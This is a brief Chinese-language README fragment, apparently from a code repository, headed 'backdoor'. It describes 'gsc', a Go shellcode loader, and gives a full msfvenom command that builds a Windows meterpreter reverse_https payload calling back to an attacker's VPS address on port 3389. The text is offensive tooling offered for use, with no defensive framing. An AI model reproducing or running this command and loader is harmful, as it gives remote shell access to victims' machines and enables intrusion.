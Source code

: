﻿后门

gsc 是使用golang编写的 shellcode loader

生成shellcode的方式 
msfvenom -p windows/meterpreter/reverse_https -f hex -o rev.hex LHOST=vps_IP LPORT=3389
